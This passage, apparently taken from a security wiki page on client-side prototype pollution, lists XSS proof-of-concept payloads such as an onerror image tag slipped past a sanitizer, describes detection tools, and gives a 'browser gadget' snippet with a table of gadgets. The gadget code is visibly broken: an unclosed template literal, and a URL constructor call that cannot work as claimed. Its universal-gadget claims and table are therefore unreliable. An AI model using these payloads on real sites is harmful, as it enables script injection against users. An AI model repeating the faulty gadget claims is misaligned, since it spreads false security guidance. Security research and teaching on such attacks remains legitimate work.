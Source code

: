 ```
</script>

<script>
  goog.require('goog.html.sanitizer.HtmlSanitizer');
  goog.require('goog.dom');
</script>
<body>
<script>
  const html = '<img src onerror=alert(1)>';
  const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
  const sanitized = sanitizer.sanitize(html);
  const node = goog.dom.safeHtmlToNode(sanitized);

  document.body.append(node);
</script>
```
```
## New Tools & Automation (2023–2025)

* **Burp Suite DOM Invader (v2023.6)** – PortSwigger added a dedicated *Prototype-pollution* tab that automatically mutates parameter names (e.g. `__proto__`, `constructor.prototype`) and detects polluted properties at sink points inside the browser extension.  When a gadget is triggered, DOM Invader shows the execution stack and the exact line where the property was dereferenced, making manual breakpoint hunting unnecessary.  Combine it with the "Break on property access" snippet already shown above to quickly pivot from *source → sink*.
* **protoStalker** – an open-source Chrome DevTools plug-in (released 2024) that visualises prototype chains in real-time and flags writes to globally dangerous keys such as `onerror`, `innerHTML`, `srcdoc`, `id`, etc.  Useful when you only have a production bundle and cannot instrument the build step.
* **ppfuzz 2.0 (2025)** – the tool now supports ES-modules, HTTP/2 and WebSocket endpoints.  The new `-A browser` mode spins up a headless Chromium instance and automatically enumerates gadget classes by bruteforcing DOM APIs (see section below).

---

## Recent Prototype-Pollution Gadget Research (2022–2025)

In mid-2023 PortSwigger researchers published a paper showing that *browser-built-in* objects can be turned into reliable XSS gadgets once polluted.  Because these objects are present on **every** page, you can gain execution even if the target application code never touches the polluted property.

Example gadget (works in all evergreen browsers ≥ 2023-04):

```html
<script>
    // Source (e.g. https://victim/?__proto__[href]=javascript:alert(document.domain))
    // For demo we just pollute manually:
    Object.prototype.href = 'javascript:alert(`polluted)' ;

    // Sink – URL() constructor implicitly reads `href
    new URL('#'); // breaks into JS; in Chrome you get an alert, Firefox loads "javascript:" URL
</script>
```
```
Other useful global gadgets that have been confirmed to work after pollution (tested 2024-11):

| Gadget class | Read property | Primitive achieved |
|--------------|---------------|--------------------|
| `Notification` | `title` | `alert()` via notification click |
| `Worker` | `name` | JS execution in dedicated Worker |
| `Image` | `src` | Traditional `onerror` XSS |
| `URLSearchParams` | `toString` | DOM-based Open Redirect |

See the PortSwigger paper for the full list of 11 gadgets and a discussion about sandbox escapes.
```